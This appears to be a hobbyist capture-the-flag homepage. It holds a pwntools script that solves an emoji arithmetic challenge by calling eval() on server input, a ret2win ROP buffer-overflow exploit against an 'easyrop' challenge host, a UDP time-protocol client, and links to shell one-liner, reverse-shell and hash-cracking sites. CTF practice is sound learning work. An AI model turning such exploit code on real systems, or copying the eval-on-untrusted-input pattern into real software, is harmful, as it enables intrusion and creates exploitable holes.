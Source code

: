 ```yaml
---
layout: default
---            
```

|<script src="https://tryhackme.com/badge/60599"></script> |<script src="https://www.hackthebox.eu/badge/277042"></script>|

[Hack the Box Write Ups](./thm.md)
[Try Hack Me Write Ups](./thm.md)
[Cool Fortune Teller in JS](./fortune.html)

### What about emoji?

```py
#!/usr/bin/env python3

from pwn import *
import re

r = remote("46.101.22.121",30437)
r.recv()
r.sendline("1")
d = r.recv().decode()
e = r.recv().decode()
print(d)
print(e)

emojis = {
"🌞" : re.findall("🌞 -> (\d+)",d)[0],
"🍨" : re.findall("🍨 -> (\d+)",e)[0],
"❌" : re.findall("❌ -> (\d+)",e)[0],
"🍪" : re.findall("🍪 -> (\d+)",e)[0],
"🔥" : re.findall("🔥 -> (\d+)",e)[0],
"⛔" : re.findall("⛔ -> (\d+)",e)[0],
"🍧" : re.findall("🍧 -> (\d+)",e)[0],
"👺" : re.findall("👺 -> (\d+)",e)[0],
"👾" : re.findall("👾 -> (\d+)",e)[0],
"🦄" : re.findall("🦄 -> (\d+)",e)[0]
}

print(str(emojis))

r.sendline("2")

for i in range(1,501):
	ques = r.recv().decode()

	print(ques)

	equation = ''
	for c in ques:
		if c in emojis:
			equation = equation + ' ' + emojis[c]
		elif c in ['*','-','+','-']:
			equation = equation + ' ' + c

	res = eval(equation)
	print(res)
	r.sendline(str(res))

flag = r.recv().decode()

print(flag)
```
### What about BOF?

```py
#!/usr/bin/env python3
from pwn import *

#p = process('./easyrop')
p = remote('hsg1.superhero1.com', 9002)
e = ELF('./easyrop')

ckpt1 = p64(e.symbols.checkpoint1) # finds address
ckpt2 = p64(e.symbols.checkpoint2)
secret = p64(e.symbols.secret)
#print(ckpt1, ckpt2)

# start interaction
# padding 
padding = b'A' *0x68  # 96 + 8 
payload = padding
payload += ckpt1
payload += ckpt2
payload += secret

p.sendline(payload)
data = p.recvall()
print(data)
```

### What about NTP you ask?
```py
#!/usr/bin/env python3
import struct
import socket
import time
import datetime

#  lib8time.cityinthe.cloud port 2038
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Bind the socket to the port
server_address = ('lib8time.cityinthe.cloud', 2038)

# Calculate current time
t = int(time.time())

# Create the packet data
packet = struct.pack('>hiqq',4919,1,t,int((time.time() % 1)*1000000))

# Send packet and get response
sock.sendto(packet, server_address)
data, address = sock.recvfrom(4096)

# Unpack the response
r = struct.unpack('>hiqqqq',bytes(data))
print(r)

# Parse the response
ct_s = r[2]
st_s = r[4]
ct_m = r[3]
st_m = r[5]

# Parse the time and convert to readable format in UTC
client_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(ct_s))
server_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(st_s))
print("Client time now (UTC):{}".format(client_time))
print("Server time now (UTC):{}".format(server_time))

# Calculate the difference in Hours
print("Hours difference: {}".format((st_s-ct_s)/3600))
```

<script src="https://platform.linkedin.com/badges/js/profile.js" async defer type="text/javascript"></script>
<div class="badge-base LI-profile-badge" data-locale="en_US" data-size="medium" data-theme="dark" data-type="VERTICAL" data-vanity="cyber-consultant" data-version="v1">
</div>

<h3 id="useful-links">Useful links</h3>

<table>
  <thead>
    <tr>
      <th>Link</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://tryhackme.com">TryHackMe</a></td>
      <td>TryHackMe - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td><a href="https://hackthebox.eu">HackTheBox</a></td>
      <td>HackTheBox - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://book.hacktricks.xyz/">HackTricks</a></td>
      <td>Tricks and Techniques</td>
    </tr>
    <tr>
      <td><a href="https://gtfobins.github.io">GTFOBins</a></td>
      <td>Quick Shell One-liners</td>
    </tr>
    <tr>
      <td><a href="https://www.revshells.com">RevShells</a></td>
      <td>Reverse Shell Command Generator</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://pentest.ws">PenTest.WS</a></td>
      <td>Engagement Utility</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://explainshell.com">ExplainShell</a></td>
      <td>Bash Shell Command Explanation</td>
    </tr>
    <tr>
      <td><a href="https://ss64.com">SS64</a></td>
      <td>Commandline Reference</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://crackstation.net">CrackStation</a></td>
      <td>Online Hash Cracking</td>
    </tr>
    <tr>
      <td><a href="https://gchq.github.io/CyberChef">CyberChef</a></td>
      <td>The Cyber Swiss Army Knife for analysing/encoding/decoding data</td>
    </tr>
    <tr>
      <td><a href="https://www.dcode.fr/en">dCode</a></td>
      <td>dCode is a toolkit website for decryption, ciphertexts</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://alomancy.gitbook.io/guides/">Guides</a></td>
      <td>In Depth Guides by <a href="https://www.twitch.tv/alomancy">Alomancy</a></td>
    </tr>
  </tbody>
</table>

<h3 id="credits">Credits</h3>

<p>Huge shoutout to <a href="https://twitch.tv/chadb_n00b">chadb_n00b</a> and to <a href="https://infosecstreams.github.io/">infosecstreams</a> for starting up and initially maintaining the list!</p>